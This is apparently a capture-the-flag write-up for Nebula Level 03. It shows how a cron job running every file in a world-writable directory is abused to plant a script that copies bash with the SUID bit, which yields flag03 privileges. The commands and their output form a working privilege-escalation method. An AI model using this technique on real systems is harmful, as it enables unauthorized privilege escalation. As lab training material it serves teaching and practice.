 # Level 03
Check the home directory of **flag03** and take note of the files there.

There is a crontab that is called every couple of minutes.

To do this level, log in as the **level03** account with the password level03. Files for this level can be found in **/home/flag03**.

## Source Code
There is no source code available for this level.

## Writeup
In /home/flag03 there is a bash script and a directory with weak privileges:

```bash
level03@nebula:/home/flag03$ ll
total 6
drwxr-x--- 3 flag03 level03  103 2011-11-20 20:39 ./
drwxr-xr-x 1 root   root      60 2012-08-27 07:18 ../
-rw-r--r-- 1 flag03 flag03   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag03 flag03  3353 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 flag03 flag03   675 2011-05-18 02:54 .profile
drwxrwxrwx 2 flag03 flag03     3 2012-08-18 05:24 writable.d/
-rwxr-xr-x 1 flag03 flag03    98 2011-11-20 21:22 writable.sh*
```

We can read the script:

```bash
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

This script for every file in the directory **/home/flag03/writable.d** execute the command:

```bash
ulimit -t 5; bash -x "$i"
```

The **ulimit** command is a built-in Linux shell command that allows viewing or limiting system resource amounts that individual users consume. Limiting resource usage is valuable in environments with multiple users and system performance issues.

With the **-t** arguments we can specifies a process' maximum running time, in seconds.

After this command that is to able the other player to play with the machine without interfere with earch others.

The next command is **bash -x "$i"** that execute every files in the directory.

Finally, the script clear the directory with:

```bash
rm -f "$i"
```

We know that there is a cron job that is called every couple of minutes that invoke that script.

So we can create a script that copy the **/bin/bash** binary in the **flag03** directory and add the **SUID** bit to it. The result is a bash binary with the permission of **flag03** account.

Write this script into a file **script.sh** in **/home/flag03/writable.d** directory:

```bash
#!/bin/bash

cp /bin/bash /home/flag03/bash
chmod u+s /home/flag03/bash
```

Now attend that the cron job execute the script.

We can examite that with **watch** command:

```bash
watch -n 1 ls -l /home/flag03/
```

Now we have a **bash** binary with **SUID**:

```bash
level03@nebula:/home/flag03$ ll
total 910
drwxr-x--- 1 flag03 level03     80 2023-03-14 04:45 ./
drwxr-xr-x 1 root   root        80 2012-08-27 07:18 ../
-rwsr-xr-x 1 flag03 flag03  916692 2023-03-14 04:45 bash*
-rw-r--r-- 1 flag03 flag03     220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag03 flag03    3353 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 flag03 flag03     675 2011-05-18 02:54 .profile
drwxrwxrwx 1 flag03 flag03      40 2023-03-14 04:45 writable.d/
-rwxr-xr-x 1 flag03 flag03      98 2011-11-20 21:22 writable.sh*
```

Just launch **/home/flag03/bash** with **-p** argument prevent bash to drop execute privileges:

```bash
/home/flag03/bash -p
```

We have now a bash with **flag03** account:

```bash
level03@nebula:/home/flag03$ /home/flag03/bash -p
bash-4.2$ id
uid=1004(level03) gid=1004(level03) euid=996(flag03) groups=996(flag03),1004(level03)
```

Finally, run **getflag** command:

```bash
bash-4.2$ getflag
You have successfully executed getflag on a target account
```